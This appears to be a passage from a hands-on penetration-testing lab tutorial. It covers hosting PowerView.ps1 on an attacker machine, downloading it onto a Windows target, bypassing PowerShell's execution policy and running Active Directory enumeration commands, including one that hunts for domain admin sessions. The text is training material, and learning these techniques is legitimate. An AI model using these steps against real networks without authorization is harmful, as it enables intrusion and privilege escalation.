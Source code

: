 
PowerView is a PowerShell tool designed for network and AD enumeration. It helps security professionals gather detailed information about user accounts, groups, computers, and domain trusts. PowerView is used to identify potential security weaknesses and misconfigurations in an AD environment. It is commonly employed in penetration testing and red team operations

  
In the terminal, execute the command **cd /root/ADtools** to move into the ADtools folder

Next, we will attempt post-enumeration to gather additional information about the AD

For enumeration purposes, we will utilize the **PowerView.ps1** script. We will host a Python server on our attacker machine to share this script, and then we will download it onto a Windows 11 machine (Mark) using an RDP session

Type **python3 -m http.server** in the terminal and press **Enter** to start the HTTP server

After starting the HTTP server, return to Remmina where our RDP session is active. Then, open the **Firefox** browser and navigate to the URL **http://10.10.1.13:8000/PowerView.ps1** to automatically download the **PowerView.ps1** script. Close the **Firefox** browser window

Once the script is downloaded, launch **PowerShell** by searching for it in Windows search option

Navigate to the **Downloads** folder by running the command **cd Downloads**. Before loading the script, run the command **powershell -EP Bypass** to enable script execution

Now, execute the command **. .\PowerView.ps1** (there is space between the points) to load the PowerView.ps1 script in PowerShell

Next, execute **Get-NetComputer** command in PowerShell. This command will display all the information related to computers in AD. It lists all computer objects in AD, which can help in identifying network targets and mapping the AD environment

During user enumeration, we found a new user **SQL_srv**, who has some high privileges and could be useful for further attacks. In the next task we will be attacking the **SQL_srv** user who has SQL service running on it

Here are some other listed commands that you can use with **PowerView.ps1** for enumeration:

- **Get-NetOU** - Lists all organizational units (OUs) in the domain.
- **Get-NetSession** - Lists active sessions on the domain.
- **Get-NetLoggedon** - Lists users currently logged on to machines.
- **Get-NetProcess** - Lists processes running on domain machines.
- **Get-NetService** - Lists services on domain machines.
- **Get-NetDomainTrust** - Lists domain trust relationships.
- **Get-ObjectACL** - Retrieves ACLs for a specified object.
- **Find-InterestingDomainAcl** - Finds interesting ACLs in the domain.
- **Get-NetSPN** - Lists service principal names (SPNs) in the domain.
- **Invoke-ShareFinder** - Finds shared folders in the domain.
- **Invoke-UserHunter** - Finds where domain admins are logged in.
- **Invoke-CheckLocalAdminAccess** - Checks if the current user has local admin access on specified machines.

